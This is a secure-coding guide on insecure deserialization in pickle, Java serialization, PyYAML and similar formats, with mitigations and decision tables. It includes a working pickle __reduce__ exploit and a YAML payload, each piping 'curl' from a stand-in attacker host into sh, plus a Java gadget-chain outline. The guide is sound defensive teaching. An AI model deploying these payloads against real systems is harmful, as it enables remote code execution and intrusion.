


# Insecure Deserialization

## Why This Exists

**Problem.** Serialization formats like Python `pickle`, Java `ObjectInputStream`, Ruby `Marshal`, .NET `BinaryFormatter`, PHP `unserialize`, and PyYAML's default loader are not data formats — they are **embedded programs** that reconstruct arbitrary objects by invoking arbitrary code paths during deserialization. If an attacker controls the bytes, the attacker controls what code runs, often before any of your validation logic gets a chance.

**Key insight.** Deserialization is a **language feature**, not a parsing step. `pickle.loads(b)` is morally equivalent to `exec(b)` for a sufficiently motivated attacker. The parser doesn't know the difference between "an HTTP session cookie" and "a chain of object constructors that ends in `Runtime.exec("/bin/sh")`". You cannot make untrusted deserialization safe by sanitizing inputs — the attack surface is the type system itself.

**Reach for this when:**
- Designing a session/cookie/cache layer that round-trips objects.
- Receiving messages over Kafka, SQS, RabbitMQ, gRPC, or HTTP from any system that isn't 100% under your trust boundary.
- Reviewing a service that accepts file uploads (`.pkl`, `.joblib`, `.pt`, `.h5`, `.npy`), config (`.yaml`), or RPC payloads.
- Auditing legacy Java/.NET code for `ObjectInputStream`, `BinaryFormatter`, `LosFormatter`, or `NetDataContractSerializer`.
- An ML pipeline loads model weights from S3 buckets with broad write access.

**Don't reach for this when:**
- You're parsing pure data formats (JSON, CBOR, MessagePack, Protobuf, FlatBuffers) into known schemas — those are real parsers, not VMs. (Caveat: polymorphic JSON with type discriminators like Jackson `@JsonTypeInfo` re-introduces the bug — see Pitfalls.)
- The bytes are signed by a key only your service holds (HMAC-authenticated, e.g. Rails signed cookies) AND you've verified there's no key-leak path. Even then, prefer not to deserialize complex objects.

---

## Diagrams

### How a gadget chain becomes RCE



### Defense-in-depth decision flow



---

## The Big Three (and their cousins)

### 1. Python `pickle` / `cPickle` / `dill` / `joblib`

`pickle` is the canonical "deserialization is code execution" example. The format includes opcodes like `REDUCE` that explicitly call a callable with arguments — the format was *designed* to invoke arbitrary code.

```python
# THE EXPLOIT — minimal pickle RCE
import pickle, os

class Exploit:
    def __reduce__(self):
        # __reduce__ tells pickle: "to rebuild me, call this callable with these args"
        # pickle has no concept of "is this a safe callable?"
        return (os.system, ('curl https://attacker.example/x | sh',))

payload = pickle.dumps(Exploit())
# payload is now ~60 bytes that, when loaded, run a shell command.

# Anywhere this runs, the attacker wins:
pickle.loads(payload)            # vanilla
import joblib; joblib.load(...)  # scikit-learn model files
import torch; torch.load(...)    # PyTorch checkpoints (uses pickle by default!)
```

**Real-world reach:** Hugging Face had to introduce `safetensors` because attackers were uploading `.bin` (pickle) checkpoints with embedded payloads. PyTorch added `weights_only=True` in 2.4+ for the same reason. Any ML pipeline that does `torch.load(s3_path)` from a non-curated bucket is one misconfigured S3 ACL away from RCE on every training node.

**Mitigation:**
```python
# Option A: Don't use pickle for anything crossing a trust boundary.
import json
data = json.loads(payload)  # validate against schema after

# Option B: If you MUST use pickle (e.g., complex Python objects internally),
#          authenticate the bytes with HMAC over a secret key.
import hmac, hashlib, pickle

def safe_dump(obj, key: bytes) -> bytes:
    body = pickle.dumps(obj)
    mac = hmac.new(key, body, hashlib.sha256).digest()
    return mac + body

def safe_load(blob: bytes, key: bytes):
    mac, body = blob[:32], blob[32:]
    expected = hmac.new(key, body, hashlib.sha256).digest()
    if not hmac.compare_digest(mac, expected):
        raise ValueError("MAC mismatch — drop and alert")
    # Still risky if key leaks. Layer with a restricted Unpickler:
    return RestrictedUnpickler(io.BytesIO(body)).load()

class RestrictedUnpickler(pickle.Unpickler):
    ALLOWED = {("builtins", "set"), ("__main__", "MyDataClass")}
    def find_class(self, module, name):
        if (module, name) not in self.ALLOWED:
            raise pickle.UnpicklingError(f"forbidden: {module}.{name}")
        return super().find_class(module, name)

# Option C (ML weights): use safetensors or torch.load(..., weights_only=True)
import torch
state = torch.load("model.pt", weights_only=True)  # refuses arbitrary code paths
```

### 2. Java `ObjectInputStream` and the gadget-chain era

Java's serialization was the source of the 2015 "Java apocalypse" — Frohoff & Lawrence's `ysoserial` weaponized commodity gadget chains in Apache Commons Collections, Spring, Groovy, and dozens of others. Any service exposing `readObject()` on attacker-controllable bytes was potentially vulnerable, including JBoss, WebLogic, WebSphere, and Jenkins.

```java
// THE BUG — anywhere user-controlled bytes hit ObjectInputStream
ObjectInputStream ois = new ObjectInputStream(request.getInputStream());
Object obj = ois.readObject();   // gadget chain runs HERE, before any cast or check
MyDto dto = (MyDto) obj;          // ClassCastException — but RCE already fired
```

**Why a cast doesn't help:** Deserialization invokes `readObject`, `readResolve`, `readExternal`, and constructor side-effects on every reachable type. By the time the cast fails, `Runtime.getRuntime().exec(...)` has already run via a `TransformedMap` / `InvokerTransformer` chain.

**Mitigations (in order of preference):**

```java
// Best: don't accept Java-serialized bytes from untrusted sources at all.
// Use Jackson with default typing OFF, or Protobuf/Avro.

// If you must, use JEP 290 ObjectInputFilter (Java 9+, backported to 8u121+):
ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
    "com.example.dto.*;java.lang.*;java.util.*;!*"   // allowlist; deny-all default
);
ObjectInputStream ois = new ObjectInputStream(in);
ois.setObjectInputFilter(filter);

// Or globally via JVM flag:
//   -Djdk.serialFilter='com.example.dto.*;java.util.*;!*'

// Audit your classpath for known gadget classes:
//   grep for commons-collections < 3.2.2, commons-collections4 < 4.1,
//   spring-core < 4.2.7, groovy < 2.4.4, etc.
//   Run: java -jar ysoserial.jar to see what your classpath enables.
```

The lesson is sharper than "patch the gadget" — **the format itself is the vulnerability**. Each new commons library is a potential new gadget chain. Java's own architects effectively deprecated serialization (JEP 154, JEP 290, JEP 415) and Project Amber's "serialization 2.0" replaces it with explicit `readObject`/`writeObject` records.

### 3. PyYAML / SnakeYAML — when "config" is code

```python
import yaml

# THE BUG: yaml.load() default loader resolves !!python/object tags.
config = yaml.load(open("config.yaml"))  # DEPRECATED but still in old code

# The attacker writes:
#   !!python/object/apply:os.system ["curl evil.com/x | sh"]
# Loading the file runs the command.

# THE FIX: always use safe_load.
config = yaml.safe_load(open("config.yaml"))   # only basic types
# Or explicitly:
config = yaml.load(open("config.yaml"), Loader=yaml.SafeLoader)
```

PyYAML 5.1 (2019) deprecated calling `load` without an explicit `Loader`. PyYAML 6.0 made `Loader=` mandatory. Despite this, every quarter brings new CVEs in tools that still ship `yaml.load(user_input)` — Ansible, Salt, and Kubernetes operators have all had instances.

SnakeYAML in Java had the equivalent `!!javax.script.ScriptEngineManager` gadget. `SafeConstructor` is the safe path; recent versions default to it.

### 4. The honorable mentions

| Format | Danger | Safe alternative |
|---|---|---|
| Ruby `Marshal.load` | Same as pickle. RCE via `_load`. | JSON, MessagePack |
| PHP `unserialize()` | "POP chains" via `__wakeup`, `__destruct`. | `json_decode()` with `JSON_THROW_ON_ERROR` |
| .NET `BinaryFormatter` / `NetDataContractSerializer` / `LosFormatter` / `ObjectStateFormatter` | Microsoft itself says "do not use". Obsoleted in .NET 7, removed in .NET 9. | `System.Text.Json` (with `[JsonConstructor]`), Protobuf |
| Node.js `node-serialize` | `IIFE` payloads. | JSON; if you need types, use a schema lib like Zod. |
| XML with `XMLDecoder` (Java) | Encodes arbitrary method calls. | Document-oriented XML libs with disabled DTDs/entity expansion. |
| Jackson with `enableDefaultTyping()` / `@JsonTypeInfo(use=Id.CLASS)` | Polymorphic JSON deserialization re-creates the gadget problem. | Type allowlist via `BasicPolymorphicTypeValidator`, or sealed/closed type hierarchies. |
| .pkl in MLflow, joblib, tensorflow's `tf.keras.models.load_model` (HDF5 with custom layers) | Arbitrary code on load. | `safetensors`, ONNX, TF SavedModel with `safe_mode`. |

---

## Gadget chains: the attacker's library

A "gadget" is a class on your classpath whose normal deserialization side-effect can be chained to do something useful for the attacker. The attacker doesn't need to inject new code — they reuse what's already loaded in your JVM/Python interpreter.

**Canonical Java chain (CommonsCollections1):**
```
AnnotationInvocationHandler
  → LazyMap.get()
    → ChainedTransformer.transform()
      → InvokerTransformer (reflection)
        → Runtime.getRuntime().exec("calc.exe")
```

The whole chain triggers from a single `readObject()`. None of these classes individually are "vulnerable" — the bug is that the format lets the attacker compose them.

**Canonical Python pickle gadget:** `__reduce__` on any class returns `(callable, args)`. `os.system`, `subprocess.Popen`, `__import__('os').system`, and a few `builtins` entries are the usual primitives. There's no chain needed because pickle is more direct.

**The practical takeaway:** if your dependency tree has Apache Commons Collections, Spring, Groovy, c3p0, Hibernate, JBoss, MyFaces, Mozilla Rhino, ROME, Vaadin, BeanShell, JdbcRowSet, or many others — and you deserialize untrusted Java — assume RCE. Audit with `java -jar ysoserial.jar` against your classpath.

---

## Sound mitigations (in order of preference)

### 1. Choose a data format, not a code format

| Use case | Use this | Not this |
|---|---|---|
| Inter-service RPC | gRPC + Protobuf, Twirp, JSON+OpenAPI | Java RMI, Python pickle over the wire |
| Message queue payloads | Avro + Schema Registry, Protobuf, JSON Schema | pickle, Java serialization |
| HTTP cookies / sessions | Stateless JWT (signed) or opaque session ID + server-side store | Pickled session in cookie |
| Cache (Redis, Memcached) | JSON / MessagePack / Protobuf | pickle (only if Redis is fully isolated AND HMAC'd) |
| Config files | JSON, TOML, YAML with `safe_load` | YAML with default loader |
| ML model weights | safetensors, ONNX, TF SavedModel `safe_mode=True` | pickle (.pkl, .pt, .bin), joblib, h5 with custom layers |

Schema-first formats (Protobuf, Avro, FlatBuffers, Cap'n Proto) **cannot construct arbitrary types** — the schema is the universe of allowed shapes. This is the structural property you want.

### 2. If you must use a native serializer, authenticate the bytes

```python
# HMAC-then-deserialize. The MAC check MUST come first, before any parsing.
def load_authenticated(blob: bytes, key: bytes):
    if len(blob) < 32:
        raise ValueError("too short")
    mac, body = blob[:32], blob[32:]
    expected = hmac.new(key, body, hashlib.sha256).digest()
    if not hmac.compare_digest(mac, expected):
        # Constant-time compare — never short-circuit, never log the bytes.
        raise ValueError("MAC mismatch")
    return RestrictedUnpickler(io.BytesIO(body)).load()
```

This is what Rails `MessageVerifier` and `MessageEncryptor` do. It only works if **the key never leaks**. Treat it as a hard dependency on your secrets management; rotate keys; never check them into git.

### 3. Type allowlists at the deserializer layer

- **Java:** `ObjectInputFilter` (JEP 290), with deny-all default and an explicit allowlist.
- **Python:** subclass `pickle.Unpickler` and override `find_class`.
- **Jackson:** `BasicPolymorphicTypeValidator.builder().allowIfBaseType(...)`.
- **.NET:** Use `System.Text.Json` with `[JsonDerivedType]` and `TypeInfoResolver`. Never `BinaryFormatter`.

### 4. Defense in depth around the deserializer

- Run consumers in **least-privileged sandboxes** (separate UID, no network egress except what's needed, seccomp/AppArmor, gVisor for ML inference workers).
- Egress filtering catches reverse-shell payloads even when RCE succeeds.
- WAFs can sometimes detect known payloads (`rO0AB` is base64 for the Java magic bytes `\xac\xed\x00\x05`; `gASV` is base64 for pickle protocol 4). These are defense in depth, not primary controls.
- Monitor for `Runtime.exec`, `ProcessBuilder`, `os.system` calls from JVMs/Python processes that should never spawn subprocesses.

### 5. Kill polymorphic typing in JSON unless you really need it

```java
// DANGEROUS — accepts @class as part of the payload
ObjectMapper mapper = new ObjectMapper();
mapper.enableDefaultTyping();   // FoxGlove CVE class

// SAFE — explicit allowlist
PolymorphicTypeValidator ptv = BasicPolymorphicTypeValidator.builder()
    .allowIfBaseType(MyEvent.class)
    .allowIfSubType("com.example.events.")
    .build();
ObjectMapper mapper = JsonMapper.builder()
    .activateDefaultTyping(ptv, ObjectMapper.DefaultTyping.NON_FINAL)
    .build();
```

Better: use sealed interfaces / closed type hierarchies and a discriminator field your code maps explicitly:

```java
// Best: code controls the universe of types, not the payload.
sealed interface Event permits OrderPlaced, OrderShipped {}

record OrderPlaced(String id, BigDecimal total) implements Event {}
record OrderShipped(String id, Instant shippedAt) implements Event {}

Event parse(JsonNode n) {
    return switch (n.get("type").asText()) {
        case "order_placed"  -> mapper.treeToValue(n, OrderPlaced.class);
        case "order_shipped" -> mapper.treeToValue(n, OrderShipped.class);
        default -> throw new IllegalArgumentException("unknown event type");
    };
}
```

---

## Trade-offs

| Benefit | Cost |
|---|---|
| Schema-first formats (Protobuf, Avro) eliminate the entire bug class | Schema versioning discipline; can't trivially round-trip arbitrary objects; need code-gen pipeline |
| HMAC + native serializer keeps existing code paths working | Key management becomes a hard requirement; key leak = total bypass; still vulnerable if attacker has signing oracle (e.g., shared key across all tenants) |
| Type allowlists (`ObjectInputFilter`, `RestrictedUnpickler`) salvage legacy code | Allowlist drift — every new DTO must be added; deny-by-default surprises callers; doesn't stop gadgets *within* allowed types if those types have side effects |
| `safetensors` / `weights_only=True` for ML | Loses ability to ship custom Python layers in checkpoints; teams may revert under deadline pressure |
| Sandboxing the consumer | Adds latency, ops complexity, harder to debug; doesn't prevent data exfil from within sandbox (e.g., reading other tenant data the worker can access) |
| WAF / IDS rules for known payloads | Trivially bypassed by encoding (gzip, base64-of-base64, custom protocols); creates false sense of security |
| Aggressive dependency pruning to remove gadgets | New gadgets are discovered constantly; transitive deps re-add them; whack-a-mole |

---

## Common Pitfalls

- **"It's just internal."** Internal services consume from queues, S3, caches, and other internal services that consume from the internet eventually. The trust boundary is rarely where you think it is. SSRF + internal-only endpoint + pickle = RCE. Assume any byte stream is hostile.
- **"We validate after deserialization."** The exploit fires *during* deserialization, before your validation code exists in the call stack. Validation is too late by orders of magnitude.
- **Type-cast as defense.** `(MyDto) ois.readObject()` runs the gadget chain first, throws `ClassCastException` second. The shell is already running.
- **HMAC after deserialize, instead of before.** Always verify MAC over the raw bytes *first*, then deserialize. Reverse order = no protection.
- **Single shared HMAC key across tenants/services.** One compromised tenant becomes RCE on every service. Per-tenant keys, rotated.
- **Polymorphic Jackson reintroduces the bug class.** `enableDefaultTyping`, `@JsonTypeInfo(use=Id.CLASS)`, `@JsonTypeInfo(use=Id.MINIMAL_CLASS)` are gadget-chain enablers. CVEs in this exact pattern come out yearly.
- **`yaml.load(user_input)` in 2026.** Still happens. Linters (`bandit B506`) catch it; add to CI.
- **PyTorch checkpoints from public buckets.** `torch.load("s3://public-bucket/model.pt")` without `weights_only=True` is RCE-as-a-service. `weights_only=True` was made default in PyTorch 2.6 — older code paths still default to unsafe.
- **`pickle` for Redis cache.** Redis with default settings often has no auth; gaining read/write to Redis means RCE on every consumer. JSON/MessagePack for cache values; if you need objects, parse JSON into your DTO.
- **DoS via "billion laughs" / deeply nested objects.** Even safe formats (JSON, YAML safe_load, XML) are vulnerable to resource-exhaustion attacks if you don't bound depth and size. Set max-depth, max-size limits at the parser.
- **`pickle.loads` in Celery / RQ task arguments.** Default Celery serializer was pickle for years. Anyone with Redis/AMQP access can RCE every worker. Switch to `task_serializer = 'json'`.
- **ML model registries with broad IAM.** Treat model artifacts as code. If 100 engineers can write to the model bucket, 100 engineers can RCE production inference nodes. Sign model artifacts; verify signatures on load.
- **`__reduce_ex__` is also a thing.** `RestrictedUnpickler` overrides `find_class` but you must also be careful about persistent IDs and copyreg dispatch tables. Test your restricted unpickler against a known payload.
- **JNDI injection adjacent.** Log4Shell (CVE-2021-44228) is structurally the same family — attacker-controlled bytes interpreted by a "feature" of the runtime. Audit format strings, expression languages, JNDI lookups with the same lens.

---

## Decision Table

| Scenario | Use this | Avoid |
|---|---|---|
| New microservice RPC over HTTP | gRPC+Protobuf or JSON+OpenAPI with strict schema validation | Java RMI; pickle over HTTP |
| Cache layer (Redis/Memcached) inside trust boundary, simple types | JSON or MessagePack | pickle, even if "internal" |
| Cache layer with complex Python objects (e.g., ORM instances) | Re-derive on cache miss; cache only IDs | pickle in Redis |
| Session storage in cookie | Opaque session ID + server-side store; or signed JWT with minimal claims | Pickled object in cookie |
| Inter-process IPC on same host | Unix socket + JSON or Protobuf | pickle over multiprocessing.Queue across trust boundaries |
| Multiprocessing within one trusted process | `multiprocessing.Queue` (pickle is fine — same trust domain) | n/a |
| ML model checkpoint, internal team | safetensors (preferred); pickle/torch.load only with `weights_only=True` and SHA-pinning | Loading from public/shared buckets without verification |
| ML model from third party (Hugging Face Hub) | safetensors only; refuse pickle | `from_pretrained` on `.bin` without `safe_serialization` |
| Config file from operator | YAML with `safe_load` or TOML | `yaml.load` without Loader; XML with DTDs enabled |
| Legacy Java service exposing RMI/JMX | Add `ObjectInputFilter` allowlist; better, replace with REST/gRPC | Leaving `readObject` open with full classpath |
| Polymorphic event bus payloads | Schema with explicit type discriminator + sealed type hierarchy | Jackson `enableDefaultTyping`, ObjectInputStream |
| Cross-service auth tokens | JWT with strong alg (no `none`, no key confusion); or paseto v4 | Custom serialization with embedded "isAdmin" flags |

---

## References

- OWASP — Deserialization Cheat Sheet — https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html
- OWASP — Top 10:2021 — A08 Software and Data Integrity Failures — https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/
- CWE-502 — Deserialization of Untrusted Data — https://cwe.mitre.org/data/definitions/502.html
- Frohoff & Lawrence — "Marshalling Pickles: how deserializing objects can ruin your day" (AppSecCali 2015) — https://frohoff.github.io/appseccali-marshalling-pickles/
- Frohoff — `ysoserial` (Java gadget chain payload generator) — https://github.com/frohoff/ysoserial
- Python docs — `pickle` security warning — https://docs.python.org/3/library/pickle.html#module-pickle
- Python docs — Restricting globals (`Unpickler.find_class`) — https://docs.python.org/3/library/pickle.html#restricting-globals
- PyYAML — `yaml.load` deprecation announcement — https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation
- Oracle — JEP 290: Filter Incoming Serialization Data — https://openjdk.org/jeps/290
- Oracle — JEP 415: Context-Specific Deserialization Filters — https://openjdk.org/jeps/415
- Oracle Secure Coding Guidelines — Serialization and Deserialization — https://www.oracle.com/java/technologies/javase/seccodeguide.html#8
- Microsoft — `BinaryFormatter` security guide / removal — https://learn.microsoft.com/en-us/dotnet/standard/serialization/binaryformatter-security-guide
- FasterXML Jackson — Polymorphic deserialization and `PolymorphicTypeValidator` — https://github.com/FasterXML/jackson-docs/wiki/JacksonPolymorphicDeserialization
- Hugging Face — `safetensors` rationale — https://huggingface.co/docs/safetensors/index
- PyTorch — `torch.load(weights_only=True)` security note — https://pytorch.org/docs/stable/generated/torch.load.html
- Trail of Bits — "Never a dill moment: Exploiting machine learning pickle files" — https://blog.trailofbits.com/2021/03/15/never-a-dill-moment-exploiting-machine-learning-pickle-files/
- Google — Building Secure and Reliable Systems, ch. 6 (Design for Understandability) and ch. 12 (Writing Code) — https://sre.google/books/building-secure-reliable-systems/
- Kleppmann — *Designing Data-Intensive Applications* — ch. 4 ("Encoding and Evolution") — argues for schema-first formats over language-native serializers on both safety and evolution grounds.
- AWS Builders' Library — "Avoiding fallback in distributed systems" (related: bias toward simple, restartable parsers) — https://aws.amazon.com/builders-library/avoiding-fallback-in-distributed-systems/
- Snyk — "Serialisation is not encryption" (post on PHP unserialize) — https://snyk.io/blog/serialization-is-not-encryption/
- CVE-2021-44228 (Log4Shell) — adjacent class of bug: untrusted-input-as-instructions — https://nvd.nist.gov/vuln/detail/CVE-2021-44228
- BlackHat USA 2016 — Muñoz & Mirosh, "Friday the 13th: JSON Attacks" (Jackson, fastjson, .NET serializers) — https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks.pdf

---

## See Also

- `../secrets-management/` — keeping the HMAC keys that authenticate serialized blobs out of git/logs.
- `../../data-systems/schema-evolution/` — why schema-first formats also win on long-term maintainability (DDIA ch. 4).
